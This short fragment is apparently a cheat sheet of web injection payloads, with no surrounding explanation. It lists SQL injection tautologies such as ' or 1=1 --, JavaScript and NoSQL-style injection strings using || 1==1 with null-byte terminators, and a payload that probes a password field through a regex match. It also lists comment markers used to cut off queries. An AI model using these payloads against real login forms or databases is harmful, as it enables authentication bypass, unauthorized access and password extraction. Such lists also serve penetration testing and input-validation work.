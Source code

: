 ```
' or 1=1 --
```

```
or 1=1
```

```
|| 1==1
```

*Comments*

```
//

<!--

%00
```

```
' || 1==1 %00
```

```
' %26%26 this.password.match(/aaa/)%00
```

